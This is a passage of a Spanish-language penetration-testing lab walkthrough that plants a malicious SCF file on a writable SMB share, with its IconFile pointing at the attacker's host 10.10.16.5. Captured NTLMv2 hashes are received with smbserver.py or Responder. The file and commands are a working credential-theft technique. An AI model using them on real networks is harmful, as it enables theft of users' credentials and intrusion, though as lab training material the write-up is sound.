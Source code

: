 <figure><img src="../../../.gitbook/assets/3385_vmware_owPn49leNJ.png" alt=""><figcaption></figcaption></figure>

Una vez montado el recurso SMB, procederemos a crear un archivo SCF malicioso que redirija las acciones realizadas sobre el recurso SMB hacia nuestro sistema. Este archivo malicioso permitirá interceptar las comunicaciones SMB y posteriormente robar los hashes NTLMv2.

```bash
[Shell]
Command=2
IconFile=\\10.10.16.5\smbFolder\test.ico
[Taskbar]
Command=ToggleDesktop
```

Una de las maneras que disponemos de realizar el ataque, es montando un servidor SMB en nuestra Kali para recibir el hash NTLMv2.

Para empezar, subiremos el archivo SCF malicioso en el recurso que podemos escribir (Users/Public) y con el servidor SMB montado, al pasar un tiempo vemos que recibimos el hash NTLMv2 del usuario "amanda".

```bash
smbserver.py smbFolder $(pwd) -smb2support

smbclient "//10.10.10.103/Department Shares/" -U 'Guest%'

cd Users/Public

put file.scf 
```

<figure><img src="../../../.gitbook/assets/3386_vmware_33CsiVFjsT.png" alt=""><figcaption></figcaption></figure>

Otra de las maneras de realizar el ataque sin tener el servidor SMB montado en nuestro equipo atacante, es mediante el Responder, el cual recibirá el hash NTLMv2.

```bash
responder -I tun0 -v

smbclient "//10.10.10.103/Department Shares/" -U 'Guest%'

cd Users/Public

put file.scf 
```
